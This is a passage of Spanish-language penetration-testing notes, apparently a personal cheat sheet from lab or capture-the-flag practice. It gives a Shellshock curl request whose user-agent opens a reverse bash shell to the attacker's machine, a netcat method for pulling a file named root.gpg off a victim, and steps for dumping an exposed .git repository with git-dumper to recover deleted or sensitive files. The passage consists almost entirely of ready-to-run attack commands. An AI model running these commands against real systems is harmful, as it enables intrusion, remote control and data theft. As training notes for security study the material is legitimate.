 enviamos una bash

curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'bash -c 'bash -i >& /dev/tcp/IP-KALI/POT-ATACK 0>&1''" http://IP-VICTIMA/cgi-bin/shell.sh

nos ponemos en escucha con netcat y listo

-------------------------------------------------------------------------------

## 79.- netcat también sirve para transferir archivos

en kali:

se ejecuta primero

nc -lvnp 1234 > root.gpg

se guarda en la carpeta dónde ejecutamos el comando de arriba.



en víctima:

se ejecuta después:

nc IP-KALI 1234 < root.gpg

-------------------------------------------------------------------------------

## 80.- si tenemos un repositorio .git

siempre hay que ver los commits


lo que se puede ver:


archivos que podemos traer a kali

se puede extraer cosas que se han borrado, se enumera y se puede traer

texto sensible

puedes subir un archivo malicioso a la web

utilizamos git-dumper

pip install git-dumper

si me sale error utilizamos un entorno virtual

ver el apunte 66 de apuntes.txt

utilizamos git-dumper

git-dumper http://192.168.42.177/.git dump 

luego cd  dump

hacemos ls -la

debe aparecer el .git
